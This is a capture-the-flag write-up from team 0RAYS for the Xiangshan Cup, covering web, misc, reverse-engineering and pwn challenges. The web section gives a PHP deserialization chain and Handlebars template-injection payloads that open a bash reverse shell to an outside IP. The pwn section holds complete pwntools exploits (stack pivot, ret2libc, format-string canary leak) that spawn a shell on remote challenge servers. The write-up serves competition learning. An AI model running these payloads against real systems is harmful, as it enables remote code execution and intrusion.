# 香山杯 0RAYS WriteUp

# Web

## PHP_unserialize_pro

```php
<?php
    error_reporting(0);
    class Welcome{
        public $name;
        public $arg = 'welcome';
        public function __construct(){
            $this->name = 'Wh0 4m I?';
        }
        public function __destruct(){
            if($this->name == 'A_G00d_H4ck3r'){
                echo $this->arg;
            }
        }
    }

    class G00d{
        public $shell;
        public $cmd;
        public function __invoke(){
            $shell = $this->shell;
            $cmd = $this->cmd;
            if(preg_match('/f|l|a|g|\*|\?/i', $cmd)){
                die("U R A BAD GUY");
            }
            eval($shell($cmd));
        }
    }

    class H4ck3r{
        public $func;
        public function __toString(){
            $function = $this->func;
            $function();
        }
    }

    if(isset($_GET['data']))
        unserialize($_GET['data']);
    else
        highlight_file(__FILE__);
?>
```

```php
<?php
    class Welcome{
        public $name;
        public $arg;
        public function __construct($name, $arg){
            $this->name = $name;
            $this -> arg = $arg;
        }
    }

    class G00d{
        public $shell;
        public $cmd;
        
        public function __construct($cmd, $shell) {
            $this -> cmd = $cmd;
            $this -> shell = $shell;
        }
    }

    class H4ck3r{
        public $func;
        public function __construct($func) {
            $this -> func = $func;
        }
    }

$c = new G00d("system(\$_POST['cmd']);", "assert");
$b = new H4ck3r($c);
$a = new Welcome("A_G00d_H4ck3r", $b);
echo serialize($a)."\n";
```

## mewo_blog

WAF 上存在 pp

[https://github.com/kobezzza/Collection/issues/27](https://github.com/kobezzza/Collection/issues/27)

限制还是数组过

```json
{"username": "1", "password": "1", "payload": [1, {"payload": {"__proto__": {"style":"{{#with \"s\" as |string|}}\n{{#with \"e\"}}\n  {{#with split as |conslist|}}\n    {{this.pop}}\n    {{this.push (lookup string.sub \"constructor\")}}\n    {{this.pop}}\n    {{#with string.split as |codelist|}}\n      {{this.pop}}\n      {{this.push \"return require('child_process').execSync('bash -i >& /dev/tcp/120.26.39.182/1337 0>&1');\"}}\n      {{this.pop}}\n      {{#each conslist}}\n        {{#with (string.sub.apply 0 codelist)}}\n          {{this}}\n        {{/with}}\n      {{/each}}\n    {{/with}}\n  {{/with}}\n{{/with}}\n{{/with}}"}}}]}
```

先要越权，然后改 style SSTI 就行

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars---command-execution](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#handlebars---command-execution)

```bash
app_1  | Handlebars: Access has been denied to resolve the property "style" because it is not an "own property" of its parent.
app_1  | You can add a runtime option to disable the check or this warning:
app_1  | See https://handlebarsjs.com/api-reference/runtime-options.html#options-to-control-prototype-access for details
```

可以 pp arguments + dynamic import

Payload:

```json
{"username": "1", "password": "1", "payload": [1, {"payload": {"__proto__": {"style":"{{#with \"s\" as |string|}}\n{{#with \"e\"}}\n  {{#with split as |conslist|}}\n    {{this.pop}}\n    {{this.push (lookup string.sub \"constructor\")}}\n    {{this.pop}}\n    {{#with string.split as |codelist|}}\n      {{this.pop}}\n      {{this.push \"return import('child_process').then(m=>m.execSync('bash -c \\\"bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/xxxx 0>&1\\\"'))\"}}\n      {{this.pop}}\n      {{#each conslist}}\n        {{#with (string.sub.apply 0 codelist)}}\n          {{this}}\n        {{/with}}\n      {{/each}}\n    {{/with}}\n  {{/with}}\n{{/with}}\n{{/with}}","allowedProtoMethods":{"split":true,"pop":true,"push":true,"sub":true,"apply":true,"keys":true,"constructor":true,"call":true,"style":true}}}}]}
```

反弹出来 catflag 就行了

# Misc

## 签到

base64 + 凯撒

## pintu

统计一下图片的高度，发现有 40,60,61,62,63,64,65,66,67,70,71

跳过了 68 和 69，结合提示 8->10，联想到是 8 进制

统计一下高度输出

```python
from PIL import Image

count = 0
a = []
for i in range(1,4704):
    img = Image.open("./pintu/{}.png".format(i))
    width,height=img.size
    a.append(chr(int(str(height),8)))
print("".join(a))
```

再 base32 解密得到一串 base64，但明显解密不了



回过来考虑图片还有黑白像素,提取

```python
from PIL import Image

count = 0
res = ""
a = []
for i in range(1,4704):
    img = Image.open("./pintu/{}.png".format(i))
    width,height=img.size
    tmp = img.getpixel((0,0))
    if(tmp == (0,0,0)):
        res += "0"
    elif(tmp == (255,255,255)):
        res += "1"
    a.append(chr(int(str(height),8)))

print(res)
```

长度不是 8 的倍数，但是 4703+1 是 8 的倍数，考虑补一个前导 0



长度为 64，且不重复，明显是字符表



得到 png


npiet



# Reverse

## URL 从哪儿来

用 resource hacker 把资源 dump 下来



写个脚本解密一下资源

```python
with open('E_OU101', 'rb') as f:
    s = f.read()
    s = bytearray(s)
    for i in range(len(s)):
        if s[i] != 120 and s[i]!=0:
            s[i] = s[i] ^ 0x78
    with open('ou.exe', 'wb') as ff:
        ff.write(s)
```

动调 `ou.exe`,这里打个断点



拿到 flag



## hello_py

解压 assets/app.imy,得到 python 源码


xxtea 加密

```python
from java import jboolean ,jclass #line:1
import struct #line:3
import ctypes #line:4
def MX (O0O00OOO00OO00O00 ,O0OO0O00OO0O000OO ,OO000OO000000O0O0 ,OOO00O00OOO000OOO ,OO0OOO0OOO0OOOO0O ,O0OO000O0000O000O ):#line:7
    OOO000O0O0OO00000 =(O0O00OOO00OO00O00 .value >>5 ^O0OO0O00OO0O000OO .value <<2 )+(O0OO0O00OO0O000OO .value >>3 ^O0O00OOO00OO00O00 .value <<4 )#line:8
    OOO0OOOOOO0O0OO00 =(OO000OO000000O0O0 .value ^O0OO0O00OO0O000OO .value )+(OOO00O00OOO000OOO [(OO0OOO0OOO0OOOO0O &3 )^O0OO000O0000O000O .value ]^O0O00OOO00OO00O00 .value )#line:9
    return ctypes .c_uint32 (OOO000O0O0OO00000 ^OOO0OOOOOO0O0OO00 )#line:11
def encrypt (OO0OO0O0O0O0O0OO0 ,OOO0O0OO0O0OOO000 ,OO0OOOO0OO0OOO0O0 ):#line:14
    O0OOO0OO00O0000OO =0x9e3779b9 #line:15
    OOOO0OOOO00O0OOOO =6 +52 //OO0OO0O0O0O0O0OO0 #line:16
    O00OO00000O0OO00O =ctypes .c_uint32 (0 )#line:18
    OO0OOOO0O0O0O0OO0 =ctypes .c_uint32 (OOO0O0OO0O0OOO000 [OO0OO0O0O0O0O0OO0 -1 ])#line:19
    OOOOO00000OOOOOOO =ctypes .c_uint32 (0 )#line:20
    while OOOO0OOOO00O0OOOO >0 :#line:22
        O00OO00000O0OO00O .value +=O0OOO0OO00O0000OO #line:23
        OOOOO00000OOOOOOO .value =(O00OO00000O0OO00O .value >>2 )&3 #line:24
        for OO0O0OOO000O0000O in range (OO0OO0O0O0O0O0OO0 -1 ):#line:25
            OOO0OO00O0OO0O000 =ctypes .c_uint32 (OOO0O0OO0O0OOO000 [OO0O0OOO000O0000O +1 ])#line:26
            OOO0O0OO0O0OOO000 [OO0O0OOO000O0000O ]=ctypes .c_uint32 (OOO0O0OO0O0OOO000 [OO0O0OOO000O0000O ]+MX (OO0OOOO0O0O0O0OO0 ,OOO0OO00O0OO0O000 ,O00OO00000O0OO00O ,OO0OOOO0OO0OOO0O0 ,OO0O0OOO000O0000O ,OOOOO00000OOOOOOO ).value ).value #line:27
            OO0OOOO0O0O0O0OO0 .value =OOO0O0OO0O0OOO000 [OO0O0OOO000O0000O ]#line:28
        OOO0OO00O0OO0O000 =ctypes .c_uint32 (OOO0O0OO0O0OOO000 [0 ])#line:29
        OOO0O0OO0O0OOO000 [OO0OO0O0O0O0O0OO0 -1 ]=ctypes .c_uint32 (OOO0O0OO0O0OOO000 [OO0OO0O0O0O0O0OO0 -1 ]+MX (OO0OOOO0O0O0O0OO0 ,OOO0OO00O0OO0O000 ,O00OO00000O0OO00O ,OO0OOOO0OO0OOO0O0 ,OO0OO0O0O0O0O0OO0 -1 ,OOOOO00000OOOOOOO ).value ).value #line:30
        OO0OOOO0O0O0O0OO0 .value =OOO0O0OO0O0OOO000 [OO0OO0O0O0O0O0OO0 -1 ]#line:31
        OOOO0OOOO00O0OOOO -=1 #line:32
    return OOO0O0OO0O0OOO000 #line:34

def check (O0000000000O0O0O0 ):#line:63
    print ("checking~~~: "+O0000000000O0O0O0 )#line:64
    O0000000000O0O0O0 =str (O0000000000O0O0O0 )#line:65
    if len (O0000000000O0O0O0 )!=36 :#line:66
        return jboolean (False )#line:67
    O00OO00000OO0OOOO =[]#line:69
    for O0O0OOOOO0OOO0OOO in range (0 ,36 ,4 ):#line:70
        OO0OO0OOO000OO0O0 =O0000000000O0O0O0 [O0O0OOOOO0OOO0OOO :O0O0OOOOO0OOO0OOO +4 ].encode ('latin-1')#line:71
        O00OO00000OO0OOOO .append (OO0OO0OOO000OO0O0 )#line:72
    _O00OO0OOOOO00O00O =[]#line:73
    for O0O0OOOOO0OOO0OOO in O00OO00000OO0OOOO :#line:74
        _O00OO0OOOOO00O00O .append (struct .unpack ("<I",O0O0OOOOO0OOO0OOO )[0 ])#line:75
    print (_O00OO0OOOOO00O00O )#line:77
    OO0OO0OOO000OO0O0 =encrypt (9 ,_O00OO0OOOOO00O00O ,[12345678 ,12398712 ,91283904 ,12378192 ])#line:78
    OOOOO0OOO0OO00000 =[689085350 ,626885696 ,1894439255 ,1204672445 ,1869189675 ,475967424 ,1932042439 ,1280104741 ,2808893494 ]#line:85
    for O0O0OOOOO0OOO0OOO in range (9 ):#line:86
        if OOOOO0OOO0OO00000 [O0O0OOOOO0OOO0OOO ]!=OO0OO0OOO000OO0O0 [O0O0OOOOO0OOO0OOO ]:#line:87
            return jboolean (False )#line:88
    return jboolean (True )#line:90
def sayHello ():#line:92
    print ("hello from py")#line:93
```

exp 如下

```python
from ctypes import *


def MX(z, y, total, key, p, e):
    temp1 = (z.value >> 5 ^ y.value << 2) + (y.value >> 3 ^ z.value << 4)
    temp2 = (total.value ^ y.value) + (key[(p & 3) ^ e.value] ^ z.value)

    return c_uint32(temp1 ^ temp2)

def decrypt(n, v, key):
    delta = 0x9e3779b9
    rounds = 6 + 52 // n

    total = c_uint32(rounds * delta)
    y = c_uint32(v[0])
    e = c_uint32(0)

    while rounds > 0:
        e.value = (total.value >> 2) & 3
        for p in range(n - 1, 0, -1):
            z = c_uint32(v[p - 1])
            v[p] = c_uint32((v[p] - MX(z, y, total, key, p, e).value)).value
            y.value = v[p]
        z = c_uint32(v[n - 1])
        v[0] = c_uint32(v[0] - MX(z, y, total, key, 0, e).value).value
        y.value = v[0]
        total.value -= delta
        rounds -= 1

    return v


#  test
if __name__ == "__main__":
    v = [689085350 ,626885696 ,1894439255 ,1204672445 ,1869189675 ,475967424 ,1932042439 ,1280104741 ,2808893494]
    k = [12345678 ,12398712 ,91283904 ,12378192]
    n = 9
    res = decrypt(n, v, k)
    res = [num.to_bytes(4,'little').decode() for num in res]
    print(''.join(res))
```

## nesting

这是一道 vm 类的题

首先为 vm 创建一个结构体

```c
struct vm{
    char op[0x300];
    char mem[0xd00];
    char stack[0x200];
    char eip;
    char reg[10];
}
```

通过动态调试,比如第一次输入 `b234567890123456789012345678901234567890` 得到



第二次输入 `a234567890123456789012345678901234567890` 得到



可以发现仅仅有一位发生了变化,那么这说明我们的输入是逐位加密的

在异或这个地方打个断点,现在我们输入 `c2345678901234567890123456789012345678901234567890`



可以发现这里第一个异或的值就是我们的输入的第一位



加密完成后,第一位的值是 0x37,而且有 `hex(ord('c')^0x54)=0x37`



所以可以知道输入仅仅是经历了异或加密

写个 IDA_trace 脚本把这个异或的值打印出来

```python
import idc
import ida_bytes

print(f"{idc.get_reg_value('RAX')},",end='')
```



经过动调发现前两位不是异或的数,后面每隔一位才是与输入进行异或的数

随后就是需要找到最终要比较的数组,通过将 0x54 与前缀 flag 的第一位 f 异或,可以得到字符 2,通过在内存中搜索,找到最后比较的数组在这个位置



所以 exp 如下

```python
xor = [84,51,246,51,242,51,7,51,251,51,4,51,5,51,14,51,93,51,83,51,201,51,78,51,70,51,10,51,19,51,1,51,3,51,56,51,160,51,187,51,199,51,68,51,250,51,188,51,3,51,68,51,44,51,154,51,109,51,152,51,53,51,79,51,74,51,16,51,196,51,23,51,9,51,97,51,6,51,225,51,141,51,117,51,198,51,93,51,130,51,31,51,51,51,217,51,127,51,153,51,162,50,360]
a = [0x32, 0x9A, 0x93, 0x60, 0x80, 0x36, 0x66, 0x39, 0x3E, 0x63, 0xF0, 0x7D, 0x24, 0x27, 0x75, 0x37, 0x37, 0x00, 0x8D, 0x8A, 0xF6, 0x21, 0x9E, 0x91, 0x62, 0x73, 0x1D, 0xAC, 0x40, 0xAF, 0x05, 0x7E, 0x2B, 0x72, 0xFC, 0x74, 0x68, 0x00, 0x67, 0x87, 0xE8, 0x08]
for i in range(len(a)):
    print(chr(a[i]^xor[2*i]),end='')
```

# Pwn

## Moved

栈迁移模板题

```python
from pwn import*
# p = process("./pwn")
p = remote("101.201.35.76",27431)
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc-2.27.so")
bss = 0x405000
ret = 0x40124c
read_rbp = 0x401230
puts_plt = 0x401080
puts_got = 0x404018
rdi = 0x401353
leave_ret = 0x40124b
p.recv()
p.send(b'a'*0x20)
p.recv()
p.send(p32(0x12345678))
p.recv()
payload = b'a'*0x30 + p64(bss) + p64(read_rbp)
p.send(payload)
# gdb.attach(p)
payload = p64(bss) + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(read_rbp) + b'a'*0x8 + p64(bss-0x30) + p64(leave_ret)
p.send(payload)

libc_base = u64(p.recv(6).ljust(8,b'\0')) - libc.symbols["puts"]
print(hex(libc_base))
system = libc_base + libc.symbols["system"]
str_bin_sh = libc_base + libc.search(b"/bin/sh").__next__()
# gdb.attach(p)
payload = b'a'*0x20 + p64(rdi) + p64(str_bin_sh) + p64(system)
p.send(payload)
p.interactive()
```

## Pwthon

在 app.cpython-37m-x86_64-linux-gnu.so 里面发现__pyx_f_3app_Welcome2Pwnthon 是直接运行之后选择 0 后出现的函数，里面给了一个地址，一个格式化字符串漏洞和一个栈溢出，格式化禁了 $。

看汇编发现这个地址是__pyx_f_3app_get_info 的地址，可以通过这个得到题目给出的这个库的 base。在栈溢出处泄露 libc，发现 libc 版本为 2.27-3ubuntu1.5_amd64，跟上一题一样。此外发现 libcbase 和前面泄露的 base 固定差 0xf2a000。因此再在栈溢出处搞 ret2libc 即可。

```python
from pwn import*
p = remote("47.93.188.210",16282)
libc = ELF("./libc-2.27.so")
# p = process("python3 ./main.py")
p.recv()
p.sendline("0")
p.recvuntil("0x")
base = int(p.recv(12),16) - 0x68b0
print(hex(base))
puts_plt = base + 0x3710
puts_got = base + 0x16078
ret = base + 0x301a
rdi = base + 0x3f8f
rsi = base + 0x3cd9
str_ = base + 0x137e8
libc_base = base + 0xf2a000
system = libc_base + libc.symbols["system"]
puts = libc_base + libc.symbols["puts"]
str_bin_sh = libc_base + libc.search(b"/bin/sh").__next__()
payload = b" %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %p  %ptt%p "
# payload = b"%6$llx"F2A
# payload = b'.%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx..%16llx.'
p.sendline(payload)
p.recvuntil("tt0x")
kanaria = int(p.recv(16),16)
print(hex(kanaria))
payload = b'a'*0x108 + p64(kanaria) + b'a'*8 + p64(ret) + p64(rdi) + p64(str_bin_sh) + p64(system)
p.sendline(payload)
p.recv()
p.recv()
# p.recv()
# libc_base = u64(p.recv(6).ljust(8,b'\0')) - libc.symbols["puts"]
# print(hex(libc_base))
# print(hex(libc_base - base))
p.interactive()
```
